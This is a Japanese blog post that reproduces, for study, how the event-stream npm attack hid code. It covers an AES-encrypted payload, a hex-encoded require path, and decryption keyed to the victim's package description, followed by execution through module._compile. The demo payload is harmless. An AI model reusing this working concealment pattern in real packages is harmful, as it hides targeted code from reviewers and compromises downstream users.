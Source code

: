 # 概要

本記事は直近で起きた npm パッケージ event-stream への攻撃のうち、任意のコードを忍ばせる手法の追試です。

⚠️ 今回は攻撃者がパッケージのメンテナであったために発生したことであり、この記事を読んで誰でも攻撃できるようになるわけではありません。
⚠️ 念のためですが、悪用しないようにお願いします。

# コード

https://github.com/kik4/npm-evil-code-injection

# ポイント

今回の攻撃では minify したコードにのみ攻撃コードが挿入されていました。ただ minify しただけでなく、一見してそれとわからないようにコードが隠蔽されていました。その手法を実際にやってみます。
この記事で確かめる隠蔽手法は次の３つです。

1. 攻撃コードの暗号化
2. 攻撃実行コードの require パスの隠蔽
3. package.json の description を見て攻撃対象を限定

ここではバージョン操作やパッケージの publish などは取り扱いません。
ついでに、特に理由はないんですが JavaScript ではなく TypeScript を使用しました。

# 攻撃手順

今回題材とするコードは次の通りです。

```ts
// 正常なコード
export default () => console.log("This is good code.");
```

```ts
// 攻撃コード
console.log("This is evil code.");
```

上記の正常なコードに攻撃コードを忍ばせます。そしてこのパッケージを実行する npm パッケージの description が`run evil code`の時だけ攻撃コードが実行されるようにしていきます。

## 1. 攻撃コードの暗号化 & 3. description で攻撃対象を限定

まず攻撃コードを AES 暗号化します。暗号化は node コマンドで REPL を起動させてちゃっちゃとやってしまいます。
暗号化する文字列は攻撃コードである`console.log("This is evil code.")`ですね。
パスワードは description で起動させる`run evil code`です。次の項で書きますが復号化時に実行しているパッケージの description を拾って与えることで、攻撃対象を限定します。

```js
var code = 'console.log("This is evil code.")';
var password = "run evil code";
var cipher = require("crypto").createCipher("aes-256-cbc", password);
var encoded = cipher.update(code, "utf8", "hex") + cipher.final("hex");
encoded;
```

結果は`cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f`です。無事に元の攻撃コードがわからなくなりました。

## 2. 攻撃実行コードの require パスの隠蔽

### index.ts

正常なコードを書いたファイルを index.ts。攻撃コードを忍ばせ、攻撃を実行するコードを書いたファイルを data.ts とします。
まずは index.ts から data.ts を require します。ただしトランスパイルされるので実際のファイル名は`./data.js`ですね。これの default の実行が攻撃コードの実行です。

```ts
export default () => {
  require("./data.js").default();
  console.log("This is good code.");
};
```

今回はこの require の中の文字列が hex エンコードされていました。なので`./data.js`もエンコードしましょう。
ここでも node でちゃっとやってしまいます。

```js
Buffer.from("./data.js").toString("hex");
// '2e2f646174612e6a73'
```

結果は`2e2f646174612e6a73`になりました。これを require の中にデコード処理を入れて書き換えます。

```ts
export default () => {
  require(Buffer.from("2e2f646174612e6a73", "hex").toString()).default();
  console.log("This is good code.");
};
```

一見して何のファイルが読み込まれているかわからなくなりましたね。

### data.ts

次に data.ts の用意です。この中で暗号化したコードの複合と実行を行います。
暗号化された攻撃コードは`cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f`。
これを実行パッケージの package.json の description を格納している`process.env.npm_package_description`で復号し、それを実行してやります。

```ts
import * as crypto from "crypto";

// _compile()の定義が無かったので追加
declare global {
  interface NodeModule {
    _compile(arg1: string, arg2: string): any;
  }
}

export default () => {
  // 攻撃コード
  const data =
    "cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f";
  // 復号器
  const decipher = crypto.createDecipher(
    "aes256",
    process.env.npm_package_description || ""
  );

  // パスワードが違うとこけるのでキャッチ
  try {
    // 復号
    const payload =
      decipher.update(data, "hex", "utf8") + decipher.final("utf8");
    // 実行
    module._compile(payload, "");
  } catch {}
};
```

以上で攻撃コードの仕込みは完了です。
一度 build して出力ディレクトリの dist を生成しておきます。これが実際に実行される js ファイルです。

# 攻撃を受けてみる

攻撃される側のパッケージを用意します。攻撃を仕込んだパッケージは公開してもしょうがないので今回はローカルインポートにしました。
package.json では攻撃コードが実行されるように description を`run evil code`にしておきます。

```json
{
  // 略
  "description": "run evil code",
  // 略
  "dependencies": {
    "library": "../library" // ローカルインポート
    // 略
  }
}
```

実行コードは素朴にこんな感じ。

```ts
import library from "library";
library();
```

これを実行した出力結果は以下の通りです。

```
// 期待する結果
// This is good code.

// 実際の結果
This is evil code.
This is good code.
```

無事に攻撃コードが実行されました！
description を書き換えると`This is evil code.`が出てきません。ちゃんと攻撃対象を絞れています。

# 参考

[2018/11/27 に判明した npm パッケージ乗っ取りについて](https://qiita.com/azs/items/b15bc456bee3a7892950)
